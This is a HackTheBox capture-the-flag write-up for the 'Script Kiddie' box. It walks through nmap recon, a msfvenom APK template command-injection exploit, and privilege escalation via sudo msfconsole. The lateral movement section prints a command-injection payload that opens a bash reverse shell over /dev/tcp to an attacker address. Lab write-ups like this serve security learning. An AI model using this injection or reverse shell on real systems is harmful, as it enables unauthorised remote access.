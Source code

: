 ```yaml
---
layout: default
title: Script Kiddie
parent: HackTheBox
nav_order: 7
---
```

# Navigation Structure
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }

![](pictures/logo-sk.png)

- Summary
- Recon
- Exploitation
- Lateral Movement
- Privilege Escalation
{:toc}

## [](#header-2)Summary:

- Exploit functionality of web app with a APK template command injection attack 
- Use user's shell script to access new user's account
- Escalate privileges with msfconsole




## [](#header-2)Recon:


Our initial nmap scan of running services and safe scripts shows both ssh and a web app running on port 5000.

![](pictures/nmap-sk.png)



Navigating to the website we can see what seems to be a script kiddies web app that utilizes common tools(nmap,msfvenom,searchsploit).



![](pictures/page-sk.png)





## [](#header-2)Exploitation:
After looking into the tools and using google I found that I could use this [exploit](https://www.rapid7.com/db/modules/exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection/) to get a reverse shell on the web server.


![](pictures/shell-sk.png)

From here I used 

```bash
bash -i
```

to get a interactive/better shell.




![](pictures/bash-sk.png)


## [](#header-2)Lateral Movement:

I am able to access the other user on the system "pwn" and find an interesting shell script "scanlosers.sh".



![](pictures/scan-sk.png)


I saw that this script took input from the log located /home/kid/logs/hackers and ran a shell command from that input.


I used the vi editor and input the following command into the log file (emphasis on the 3 spaces) in a way that I would get a reverse shell.


```bash
   ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.28/4242 0>&1'   #
```

![](pictures/rs-sk.png)

## [](#header-2)Privilege Escalation:


Priv esc was fairly easy as pwn had privileges to use msfconsole as sudo.

To check if the user can use any commands as sudo use the following command:


```bash
sudo -l
```

As hilarious as it sounds I found a couple days after I finished the box and am doing the writeup that I did not capture the full whomai command here:

![](pictures/root-sk.png)

So you'll have to trust me on this one.






Also, I highly recommend if you are learning shell commands to head over to [explainshell.com](explainshell.com) as it was extremely helpful with this box and will be in the future (at least for me)





















